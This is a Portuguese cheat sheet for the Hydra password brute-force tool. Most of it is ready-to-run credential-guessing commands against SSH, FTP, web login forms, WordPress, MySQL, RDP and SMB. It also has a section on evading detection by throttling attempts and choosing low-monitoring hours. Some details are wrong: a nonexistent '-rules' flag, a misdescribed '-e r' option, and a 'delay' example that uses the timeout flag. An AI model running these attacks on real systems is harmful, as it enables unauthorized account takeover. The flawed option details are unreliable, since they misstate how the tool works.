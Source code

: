 ## O que é o Hydra?
O **Hydra** é uma ferramenta de brute-force de rede que suporta múltiplos protocolos e serviços. É amplamente utilizado em testes de penetração para verificar a força de senhas.

## Sintaxe Básica
```bash
hydra -l <usuário> -p <senha> <protocolo://servidor:porta> <opções>
hydra -L <lista_usuários> -P <lista_senhas> <alvo> <opções>
```

## Opções Principais

### Opções de Autenticação
| Opção | Descrição |
|-------|-----------|
| `-l` | Usuário único |
| `-L` | Arquivo com lista de usuários |
| `-p` | Senha única |
| `-P` | Arquivo com lista de senhas |
| `-e` | Opções especiais: `n` (null), `s` (login como senha), `r` (senha como login) |
| `-u` | Tentar usuário primeiro (padrão: senha primeiro) |
| `-f` | Parar após encontrar primeira credencial válida |

### Opções de Conexão
| Opção | Descrição |
|-------|-----------|
| `-s` | Porta personalizada |
| `-S` | Usar conexão SSL |
| `-t` | Número de tarefas paralelas (padrão: 16) |
| `-w` | Timeout em segundos (padrão: 32) |
| `-4` | Usar apenas IPv4 |
| `-6` | Usar apenas IPv6 |

### Opções de Saída
| Opção | Descrição |
|-------|-----------|
| `-o` | Arquivo de saída |
| `-b` | Formato de saída: `text`, `json`, `jsonv1` |
| `-v` | Modo verboso |
| `-V` | Modo verboso detalhado |

## Exemplos por Protocolo

### SSH
```bash
# Ataque básico
hydra -l admin -P passwords.txt ssh://192.168.1.1

# Com lista de usuários
hydra -L users.txt -P passwords.txt ssh://192.168.1.1

# Porta personalizada
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -s 2222

# Limitar tarefas paralelas
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -t 4
```

### FTP
```bash
# Ataque FTP básico
hydra -L users.txt -P passwords.txt ftp://192.168.1.1

# FTP com SSL
hydra -L users.txt -P passwords.txt ftps://192.168.1.1

# Modo verboso
hydra -v -L users.txt -P passwords.txt ftp://192.168.1.1
```

### HTTP/HTTPS
```bash
# Formulário POST básico
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

# Com cabeçalhos personalizados
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=error" -H "User-Agent: Mozilla/5.0"

# HTTPS
hydra -l admin -P passwords.txt 192.168.1.1 https-post-form "/login:username=^USER^&password=^PASS^:Invalid"
```

### WordPress
```bash
# Ataque específico para WordPress
hydra -L users.txt -P passwords.txt 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:ERROR"
```

### MySQL
```bash
# Ataque ao MySQL
hydra -L users.txt -P passwords.txt mysql://192.168.1.1

# Porta personalizada
hydra -L users.txt -P passwords.txt mysql://192.168.1.1:3307
```

### RDP (Remote Desktop)
```bash
# Ataque RDP
hydra -L users.txt -P passwords.txt rdp://192.168.1.1

# Com domínio
hydra -L users.txt -P passwords.txt rdp://192.168.1.1 -m "DOMAIN=meudominio"
```

### SMB
```bash
# Ataque SMB
hydra -L users.txt -P passwords.txt smb://192.168.1.1

# Com grupo de trabalho
hydra -L users.txt -P passwords.txt smb://192.168.1.1 -m "WORKGROUP=WORKGROUP"
```

## Técnicas Avançadas

### Ataques com Regras
```bash
# Usando regras do John the Ripper para gerar senhas
hydra -l admin -P /usr/share/john/password.lst -rules ssh://192.168.1.1
```

### Ataque com Serviços Múltiplos
```bash
# Testar múltiplos serviços
hydra -L users.txt -P passwords.txt -M services.txt
```

Onde `services.txt` contém:
```
ssh://192.168.1.1
ftp://192.168.1.1
http://192.168.1.1
```

### Modo de Restauração
```bash
# Continuar sessão interrompida
hydra -R hydra.restore
```

### Ataque com Delay
```bash
# Adicionar delay entre tentativas
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -w 10 -t 1
```

## Boas Práticas

### 1. Performance
- Ajuste `-t` conforme a capacidade do servidor alvo
- Use `-w` para evitar timeouts em redes lentas
- Teste com poucas credenciais primeiro

### 2. Evitar Detecção
- Use delays entre tentativas (`-W`)
- Limite o número de threads (`-t`)
- Considere horários de menor monitoramento

### 3. Listas Eficientes
- Comece com listas de senhas comuns
- Use informações de OSINT para criar listas personalizadas
- Combine com regras de mutação

### 4. Monitoramento
- Use modo verboso para debug (`-v` ou `-V`)
- Salve resultados com `-o`
- Use formato JSON para processamento posterior

## Exemplo de Uso Completo

```bash
# Ataque completo com todas as opções
hydra -L users.txt -P passwords.txt \
  -e nsr \
  -t 4 \
  -w 10 \
  -f \
  -o results.txt \
  -b json \
  -v \
  ssh://192.168.1.1:22
```

Este comando:
- Usa listas de usuários e senhas
- Testa senhas nulas, iguais ao usuário e reversas
- Limita a 4 tarefas paralelas
- Timeout de 10 segundos
- Para na primeira credencial válida
- Salva em JSON
- Modo verboso
